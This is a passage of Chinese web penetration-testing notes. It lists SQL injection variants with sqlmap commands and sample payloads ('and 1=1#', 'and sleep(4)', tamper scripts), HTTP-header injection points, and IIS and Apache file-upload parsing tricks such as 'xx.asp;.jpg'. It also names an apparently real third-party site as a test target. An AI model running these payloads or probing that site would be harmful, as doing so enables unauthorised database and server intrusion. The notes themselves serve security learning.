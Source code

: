 上传资料   
加单引号报错，抓包用sqlmap跑  %bf  
sqlmap  -u “xxx” -r
自动识别表单  
Sqlmap   -u “xxx” --form  
表单里面可能存在注入[]  
**cookies注入**  
类似post，对代码级防御进行绕过，get不能注入的  
sqlmap  -u “xxx” --cookie “id=x”  
手工注入：不推荐，太麻烦，直接sqlmap，或者穿山甲  
**汉字型注入**  
www.xxx.com/xx.asp?id=’你好’ and 1=1#’  
**搜索型注入**  
搜索框  
测试站点：www.ptc-asia.com/cn/ci/?cid=62  
**伪静态注入**  
xxx.com/index.php/id/131.html  
用工具跑的时候，对注入点强制加星 *  
**延迟注入**  
通过页面返回的时间来判断  
and sleep(4) 延迟4秒  
**Base64编码注入**  
一些站点需要编码后才能识别  
Sqlmap   -u “xxx” --tamper=base64encode.py  
**二阶注入**  
一阶注入即平时所说的注入,二阶注入即恶意代码不立即执行，存储到后端数据库，在处理另一次不同请求时，代码被执行。比如：注册时构造恶意代码，注册完查看消息时爆出数据库数据。  
**Authkey注入**
Phpcms v9
**http头注入**
抓包，可能存在的注入点：
Referer:
x-forward-for :
User-agent
client-ip:
双引号无法存在
awvs会自动监测
**Xml实体注入**
比较少见
注意闭合！！！！
‘)and 1=1#
### 3.5.4 app注入漏洞挖掘
基本走的http  
使用Burpsuite进行抓包
## 3.6上传漏洞
### 3.6.1各容器漏洞
**iis 5.x 6.x 解析漏洞**  
1. 目录解析  创建目录
2. 分号解析   xx.asp;.jpg
3. 畸形文件名解析  xx.asa xx.cer xx.cdx
**Apache解析漏洞**  
Apache从右到左判断解析，如果为不可识别解析，就从左往右
X.php.
htaccess文件解析
